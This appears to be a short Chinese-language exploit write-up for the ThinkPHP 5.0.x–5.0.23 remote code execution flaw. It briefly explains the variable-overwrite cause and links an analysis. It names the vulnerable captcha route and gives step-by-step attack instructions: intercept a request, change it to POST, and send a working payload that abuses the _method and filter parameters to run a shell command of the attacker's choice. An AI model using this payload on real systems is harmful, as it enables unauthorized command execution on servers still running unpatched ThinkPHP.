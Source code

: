 ## 简介

该漏洞本质上是一个变量覆盖漏洞，通过传递_method参数覆盖了配置文件的method,导致可以访问Request类的任意函数而在Request的构造函数中又创建了恶意的成员变量，导致恶意命令被执行。

该网址中有详细原理

https://kylingit.com/blog/thinkphp-5.0.x-%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

## 漏洞影响版本

ThinkPHP5.0.x-5.0.23

## 漏洞影响地址

http://ip:port/index.php/?s=captcha

## 攻击方法

访问并截取数据包

![image-20240331223921602](../../photo/image-20240331223921602.png)

改为POST请求，然后添加

```http

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo test  //echo test部分为要执行的恶意命令
```

![image-20240331224010767](../../photo/image-20240331224010767.png)

